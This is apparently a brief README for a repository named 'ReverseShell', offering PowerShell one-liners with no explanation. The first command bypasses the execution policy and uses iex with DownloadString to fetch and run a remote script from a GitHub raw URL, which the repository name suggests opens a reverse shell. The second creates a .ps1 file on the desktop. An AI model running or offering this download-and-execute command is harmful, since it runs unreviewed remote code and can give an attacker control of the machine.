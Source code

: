 # ReverseShell
TEST
```
powershell -Command "Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/serainox420/ReverseShell/personal/test.ps1'))"
```

Create new ps1 script
```
powershell -Command "New-Item -Path $env:USERPROFILE\Desktop\test.ps1 -ItemType File"
```
